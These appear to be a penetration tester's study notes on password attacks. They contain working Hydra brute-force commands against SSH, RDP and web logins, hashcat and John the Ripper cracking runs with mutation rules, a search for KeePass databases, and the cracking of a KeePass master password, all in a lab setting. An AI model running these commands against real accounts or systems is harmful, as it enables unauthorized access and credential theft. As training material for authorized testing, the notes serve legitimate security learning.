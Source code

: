 # Password Cracking

### Hydra

#### Simple SSH & RDP Examples

```bash
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

#### HTTP Examples

As before, we'll specify -l for the user, -P for the wordlist, the target IP without any protocol, and a new http-post-form argument, which accepts three colon-delimited fields.

The first field indicates the location of the login form. In this demonstration, the login form is located on the index.php web page. The second field specifies the request body used for providing a username and password to the login form, which we retrieved with Burp. Finally we must provide the failed login identifier, also known as a condition string.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

When you run into Basic Authentication, use the following script as a reference:

```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt -t 1 "http-get://192.168.249.201/:A=BASIC:F=401"
```

---

You can think of John the Ripper as more of a CPU intensive password cracking tool that supports GPUs, while HashCat is more of a GPU-centered cracking tool, with support for CPUs.

For most algorithms, a GPU is much faster than a CPU since modern GPUs contain thousands of cores, each of which can share part of the workload. However, some slow hashing algorithms (like bcrypt) work better on CPUs.

#### Calculating Cracking Time

The cracking time can be calculated by dividing the keyspace with the hash rate.

The keyspace consists of the character set to the power of the amount of characters or length of the original information (password). For example, if we use the lower-case Latin alphabet (26 characters), upper case alphabet (26 characters), and the numbers from 0 to 9 (10 characters), we have a character set of 62 possible variations for every character. If we are faced with a five-character password, we are facing 62 to the power of five possible passwords containing these five characters.

```bash
python3 -c "print(62**5)"
```

We'll use hashcat with -b to initiate benchmark mode. First, we'll benchmark a CPU by running it in a Kali VM without any GPUs attached. Following along on a local Kali system, the results may differ.

```bash
hashcat -b
```

For now, we are only interested in MD5, SHA1, and SHA-256. The values of the hash rates are in MH/s in which 1 MH/s equals 1,000,000 hashes per second.

Example:
```bash
Algorithm 	GPU 	CPU
MD5 	68,185.1 MH/s 	450.8 MH/s
SHA1 	21,528.2 MH/s 	298.3 MH/s
SHA256 	9,276.3 MH/s 	134.2 MH/s
```

```bash
kali@kali:~$ python3 -c "print(916132832 / 134200000)"
6.826623189269746

kali@kali:~$ python3 -c "print(916132832 / 9276300000)"
0.09876058687192092
```

---

### Mutating Passwords

Removing number sequences from a password list:

```bash
# More specifically this removes passwords that start with the letter 1, and does the modification in place, not leaving empty newlines

sed -i '/^1/d' demo.txt
```

If you want to view how the demo rules work:

```bash
kali@kali:~/passwordattacks$ hashcat -r demo.rule --stdout demo.txt
password1
iloveyou1
princess1
rockyou1
abc1231
```

This sets the crack mode to MD5, with the hash being in crackme.txt, and sets the demo rules on the rockyou.txt wordlsit, with the argument '--force' to use a CPU for the cracking.

```bash
kali@kali:~/passwordattacks$ cat crackme.txt     
f621b6c9eab51a3e2f4e167fee4c6860

kali@kali:~/passwordattacks$ cat demo3.rule   
$1 c $!
$2 c $!
$1 $2 $3 c $!

kali@kali:~/passwordattacks$ hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force
``` 

### Password Cracking Process

We can describe the process of cracking a hash with the following steps:

    1. Extract hashes
    2. Format hashes
    3. Calculate the cracking time
    4. Prepare wordlist
    5. Attack the hash

You can identify the hash type with *hash-identifier* or *hashid*, which are installed on Kali.

We must take special care in copying and pasting our hashes. An extra space or a newline could render our efforts worthless. In addition, we should be sure of the hash type we are using. For example, hashid can't automatically determine if b08ff247dc7c5658ff64c53e8b0db462 is MD2, MD4, or MD5. An incorrect choice will obviously waste time. We can avoid this situation by double-checking the results with other tools and doing additional research.

**If you manage to get access to a client's workstation, check if they are running a password manager. If they are, try to crack the master password.**

#### Recursively Search a User's Workstation for KeePass Database

```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

The JtR suite includes various transformation scripts like ssh2john and keepass2john, which can format a broad range of different file formats, and they are installed by default on our Kali machine. We can also use these scripts to format hashes for Hashcat.

Let's use the keepass2john script to format the database file and save the output to keepass.hash.

```bash
kali@kali:~/passwordattacks$ ls -la Database.kdbx
-rwxr--r-- 1 kali kali 1982 May 30 06:36 Database.kdbx


kali@kali:~/passwordattacks$ keepass2john Database.kdbx > keepass.hash   

kali@kali:~/passwordattacks$ cat keepass.hash   
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
```

In our case, the JtR script prepended the filename Database to the hash. The script does this to act as the username for the target hash. This is helpful when cracking database hashes, since we want the output to contain the corresponding username and not only the password. Since KeePass uses a master password without any kind of username, we need to remove the "Database:" string with a text editor.


We're using the rule '/usr/share/hashcat/rules/rockyou-30000.rule' because it is very effective with the rockyou.txt wordlist, as it was made for it.

```bash
kali@kali:~/passwordattacks$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat (v6.2.5) starting
...
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1:qwertyuiop123!
...
```

#### Using Rules with JTR

To be able to use the previously created rules in JtR, we need to add a name for the rules and append them to the /etc/john/john.conf configuration file. For this demonstration, we'll name the rule sshRules with a "List.Rules" rule naming syntax (as shown in Listing 34). We'll use sudo and sh -c to append the contents of our rule file into /etc/john/john.conf.

```bash
kali@kali:~/passwordattacks$ cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

kali@kali:~/passwordattacks$ sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```

Now that we've successfully added our sshRules to the JtR configuration file, we can use john to crack the passphrase in the final step of our methodology. We'll define our wordlist with --wordlist=ssh.passwords, select the previously created rule with --rules=sshRules, and provide the hash of the private key as the final argument, ssh.hash.

```bash
kali@kali:~/passwordattacks$ john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

#### NTLM Hashes

```bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```